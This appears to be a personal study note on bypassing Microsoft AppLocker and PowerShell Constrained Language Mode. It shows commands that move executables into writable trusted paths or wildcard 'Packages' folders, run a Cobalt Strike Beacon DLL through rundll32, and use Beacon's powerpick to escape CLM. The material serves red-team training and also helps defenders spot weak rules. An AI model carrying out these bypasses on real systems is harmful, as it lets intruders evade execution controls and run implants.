 ```yaml
---
creation date: September 26th 2022
last modified date: September 26th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[AppLocker Bypasses]]  
___

## Description:  

### AppLocker
AppLocker is Microsoft's application whitelisting technology that can restrict the executables, libraries and scripts that are permitted to run on a system. AppLocker rules are split into 5 categories - Executable, Windows Installer, Script, Packaged App and DLLs, and each category can have its own enforcement (enforced, audit only, none).

If an AppLocker category is enforced, then by default everything within that category is blocked. Rules can then be added to allow principals to execute files within that category based on a set of criteria. The rules themselves can be defined based on file attributes such as path, publisher or hash. AppLocker has a set of default allow rules such as, "allow everyone to execute anything within `C:\Windows\*`" - the theory being that everything in `C:\Windows` is trusted and safe to execute.

Specific deny rules can be used to override allow rules, which are commonly used to block ["LOLBAS's"](https://lolbas-project.github.io/).

Take [wmic](https://lolbas-project.github.io/lolbas/Binaries/Wmic/) as an example - even though it's a "trusted" native Windows utility, it can be used to execute "untrusted" code that would bypass AppLocker. So a deny rule for `wmic.exe` would supersede the allow rule mentioned above.

Trying to execute anything that is blocked by AppLocker looks like this:

```
C:\>test.exe
This program is blocked by group policy. For more information, contact your system administrator.
```

The difficulty of bypassing AppLocker depends on the robustness of the rules that have been implemented. The default rule sets are quite trivial to bypass in a number of ways:

1.  Executing untrusted code via trusts LOLBAS's.
2.  Finding writeable directories within "trusted" paths.
3.  By default, AppLocker is not even applied to Administrators.

It is of course common for system administrators to add custom rules to cater for particular software requirements. Badly written or overly permissive rules can open up loopholes that we can take advantage of.

Like LAPS, AppLocker creates a `Registry.pol` file in the `GpcFileSysPath` of the GPO which we can read with the `Parse-PolFile` cmdlet. This is one of the default rules.

```
KeyName     : Software\Policies\Microsoft\Windows\SrpV2\Exe\921cc481-6e17-4653-8f75-050b80acca20
ValueName   : Value
ValueType   : REG_SZ
ValueLength : 736
ValueData   : <FilePathRule Id="921cc481-6e17-4653-8f75-050b80acca20"
                Name="(Default Rule) All files located in the Program Files folder"
                Description="Allows members of the Everyone group to run applications that are located in the Program Files folder."
                UserOrGroupSid="S-1-1-0"
                Action="Allow">
                <Conditions>
                  <FilePathCondition Path="%PROGRAMFILES%\*"/>
                </Conditions>
              </FilePathRule>
```

AppLocker rules applied to a host can also be read from the local registry at `HKLM\Software\Policies\Microsoft\Windows\SrpV2`.

Interestingly, Cobalt Strike's `jump psexec[64]` still works against the default AppLocker rules, because it will upload a service binary into `C:\Windows`, which is a trusted location and thus allowed to execute.

Uploading into `C:\Windows` requires elevated privileges, but there are places like `C:\Windows\Tasks` that are writeable by standard users. These areas are useful in cases where you have access to a machine (e.g. in an assumed breach scenario), and need to break out of AppLocker to run post-ex tooling.

```
C:\Users\Administrator\Desktop>test.exe
This program is blocked by group policy. For more information, contact your system administrator.

C:\Users\Administrator\Desktop>move test.exe C:\Windows\Tasks
        1 file(s) moved.

C:\Users\Administrator\Desktop>C:\Windows\Tasks\test.exe
Bye-Bye AppLocker!
```

This is an example of an overly permissive rule.
```
KeyName     : Software\Policies\Microsoft\Windows\SrpV2\Exe\3470949d-4a86-4ec5-aa37-5ad7acd6a925
ValueName   : Value
ValueType   : REG_SZ
ValueLength : 482
ValueData   : <FilePathRule Id="3470949d-4a86-4ec5-aa37-5ad7acd6a925"
                Name="Packages"
                Description="Allow custom packages"
                UserOrGroupSid="S-1-1-0"
                Action="Allow">
                  <Conditions>
                    <FilePathCondition Path="%OSDRIVE%\*\Packages\*"/>
                  </Conditions>
                </FilePathRule>
```

The path `%OSDRIVE%\*\Packages\*` expands to `C:\*\Packages\*`, (assuming `C:\` is indeed the OS drive, which it almost always is) - this means we could create a folder called `Packages` anywhere on `C:\` and run exe's from it because of the wildcards.

```
C:\Users\Administrator\Desktop>test.exe
This program is blocked by group policy. For more information, contact your system administrator.

C:\Users\Administrator\Desktop>mkdir Packages

C:\Users\Administrator\Desktop>move test.exe Packages
        1 file(s) moved.

C:\Users\Administrator\Desktop>Packages\test.exe
Bye-Bye AppLocker!
```

DLL enforcement very rarely enabled due to the additional load it can put on a system, and the amount of testing required to ensure nothing will break.

Cobalt Strike can output Beacon to a DLL that can be run with **rundll32**.

```
C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 8A6C-CD61

 Directory of C:\Users\Administrator\Desktop

05/17/2021  11:01 PM    <DIR>          .
05/17/2021  11:01 PM    <DIR>          ..
05/17/2021  10:59 PM           311,808 beacon.dll

C:\>C:\Windows\System32\rundll32.exe C:\Users\Administrator\Desktop\beacon.dll,StartW
```

```
beacon> link dc-1
[+] established link to child beacon: 10.10.15.75
```

If you have access to a Domain Controller or a machine with the appropriate packages installed, you can also enumerate the AppLocker configuration using the native GPO report commands - the `Get-GPOReport` cmdlet and `gpresult` utility.  The most convenient means of consuming the output is to save the report in HTML format, download it to your machine and open in a browser.


### PowerShell Constrained Language Mode

^6d48fa

When AppLocker is enabled PowerShell is placed into Constrained Language Mode (CLM), which restricts it to core types. `$ExecutionContext.SessionState.LanguageMode` will show the language mode of the executing process.
```
beacon> remote-exec winrm dc-1 $ExecutionContext.SessionState.LanguageMode

PSComputerName RunspaceId                           Value              
-------------- ----------                           -----              
dc-1           9dd4aebc-540e-4683-b3f7-07b6f799266e ConstrainedLanguage
```

This makes most PowerShell tradecraft difficult. `jump winrm[64]` and other PowerShell scripts will fail with the error: **Cannot create type. Only core types are supported in this language mode.**

```
beacon> remote-exec winrm dc-1 [math]::Pow(2,10)

<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><S S="Error">Cannot invoke method. Method invocation is supported only on core types in this language mode._x000D__x000A_</S><S S="Error">
```

CLM is as fragile as AppLocker, so any AppLocker bypass can result in CLM bypass. Beacon has a `powerpick` command, which is an "unmanaged" implementation of tapping into a PowerShell runspace, without using `powershell.exe`.

So if we find an AppLocker bypass rule in order to execute a Beacon, `powerpick` can be used to execute post-ex tooling outside of CLM. `powerpick` is also compatible with `powershell-import`.

```
beacon> run hostname
dc-1

beacon> powershell $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage

beacon> powershell [math]::Pow(2,10)
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><S S="Error">Cannot invoke method. Method invocation is supported only on core types in this language mode._x000D__x000A_</S><S S="Error">At line:1 char:1_x000D__x000A_</S><S S="Error">+ [math]::Pow(2,10)_x000D__x000A_</S><S S="Error">+ ~~~~~~~~~~~~~~~~~_x000D__x000A_</S><S S="Error">    + CategoryInfo          : InvalidOperation: (:) [], RuntimeException_x000D__x000A_</S><S S="Error">    + FullyQualifiedErrorId : MethodInvocationNotSupportedInConstrainedLanguage_x000D__x000A_</S><S S="Error"> _x000D__x000A_</S></Objs>

beacon> powerpick $ExecutionContext.SessionState.LanguageMode
FullLanguage

beacon> powerpick [math]::Pow(2,10)
1024
```





___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 26th 2022 (01:19 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
